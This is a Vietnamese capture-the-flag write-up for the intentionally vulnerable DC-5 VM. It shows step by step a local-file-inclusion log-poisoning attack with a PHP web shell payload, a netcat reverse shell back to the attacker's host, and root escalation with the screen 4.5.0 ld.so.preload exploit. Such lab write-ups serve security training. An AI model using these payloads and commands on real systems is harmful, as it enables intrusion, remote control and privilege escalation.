# Extra Labs 5: DC-5 on vulhub

## Description

Thông tin chung: DC-5 được phát hành vào ngày 21/04/2019 bởi tác giả DCAU. Máy ảo được xây dựng trên hệ điều hành Debian 64-bit (định dạng OVA cho VirtualBox) với mạng được cấu hình tự động qua DHCP.
## Mục tiêu: Thử thách yêu cầu người chơi lấy được quyền root và đọc một flag duy nhất. Mức độ bảo mật của bài này được đánh giá ở mức trung bình (Medium/Intermediate), không còn dành cho người mới bắt đầu như các phần trước.

Gợi ý từ tác giả: Chỉ có một điểm xâm nhập duy nhất và không có dịch vụ SSH. Tác giả cũng gợi ý hãy chú ý tới "một thứ gì đó thay đổi khi làm mới (refresh) trang" và khẳng định bài này không sử dụng lỗ hổng phpmailer.
## Các bước thực hiện

Sử dụng lệnh netdiscover để tìm địa chỉ IP của máy mục tiêu trong mạng nội bộ:



Sử dụng nmap để quét các cổng đang mở. Kết quả quét sẽ cho thấy máy mục tiêu đang mở 1 cổng: 80 (HTTP)



Từ thông tin trên biết rằng không khai thác được dịch vụ chạy trên máy

Truy cập thử vào trang web của máy dc-5:



Các tab chỉ chứa các thông tin, ngoại trừ tab contact có phần điền thông tin





Thử điền thông tin bất kỳ, nhưng em không được các thông tin vừa nhập thông qua trang Thank you.



Nhưng khi em ấn reload trang lại, phần Copyright thay đổi năm, có vẻ chúng ta có thể khai thác được ở page thankyou.php này



Em thử Fuzzing để tìm xem có gì hữu ích không, em sử dụng wfuzz:

```bash
wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/common.txt --hc 404 --hh 851 http://10.130.10.138/thankyou.php?FUZZ=test
```



Được kết quả tìm ra “file”, vậy khả năng với payload file=somefile thì có thể mở và đọc được file:

Truy cập thử:



Bây giờ em thử đọc file “nginx” log





Từ log trên chúng ta có thể thấy, file access.log lưu lại các request của người dùng theo dạng:

10.130.10.132 - - [25/Mar/2026:08:06:19 +1000] "GET /thankyou.php?CUTIEPIE=test HTTP/1.1" 200 422 "-" "Fuzz Faster U Fool v2.1.0-dev"

Có thể nhận thấy ngay, chúng lưu trữ yêu cầu của người dùng và header parameters nên chúng ta có thể thử đầu độc file này bằng một đoạn code thực thi php.

<?php system($_GET['cmd']) ?>

Đoạn mã này sẽ tạo ra một web shell

Để tiện chỉnh payload, em sử dụng Burp suite để chặn bắt và sửa request theo ý muốn.



Em có thể test bằng cách thêm tham số “&cmd=id” nếu trả về là uid cuar user là thành công, với url:



Đã tạo web shell thành công thì em sẽ tiến hành triển khai reverse shell luôn, trước tiên mở port lắng nghe tại máy tấn công:

```bash
nc -lnvp 4444
```



Sau đó chèn lệnh này vào cmd:

```bash
nc -e /bin/bash 10.130.10.132 4444
```

nc+-e+/bin/bash+10.130.10.132+4444





Thành công kết nối, việc cần làm bây giờ là leo thang đặc quyền lên root.

Em sử dụng lệnh để liệt kê tất cả các file có quyền SUID trên hệ thống mà user hiện tại được phép thực thi:

```bash
find / -perm -u=s -type f 2>/dev/null
```



Có một thư mục thú vị đó là

```bash
screen-4.5.0, em thử tìm kiếm lỗ hổng liên quan đến phần mềm này xem có khả thi không



May mắn thay có lỗ hổng liên quan đến leo thang đặc quyền ở phiên bản này.

Tải file .sh về để khám phá thêm.





Và em sẽ phải biên dịch được 2 file libhax.so và rootshell trước rồi mới chuyển sang máy nạn nhân.

Vì đoạn mã gốc của tác giả sử dụng trình biên dịch Glib-2.19 nên e sẽ cài container ubuntu:14.04 để tương thích và chạy lệnh

```bash
sudo docker run -it -v /tmp:/src ubuntu:14.04 /bin/bash
```

```bash
apt-get update && apt-get install gcc -y
```

```bash
cd /src
```

```bash
./41154.sh
```





File được lưu trong /tmp của container, vẫn ở trong container tiếp tục chạy lệnh copy:

```bash
cp /tmp/* /src
```



Sau đó em tiến hành chuyển các file này sang máy nạn nhân rồi chạy file exploit.sh

```bash
wget
```

```bash
wget
```

Và chạy thủ công các lệnh sau:

```bash
cd /etc
```

```bash
umask 000 # because
```

```bash
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
```

```bash
echo "[+] Triggering..."
```

```bash
screen -ls # screen itself is setuid, so...
```

/tmp/rootshell





Và thành công chiếm được quyền root



Và cờ vẫn nằm trong thư mục /root
```
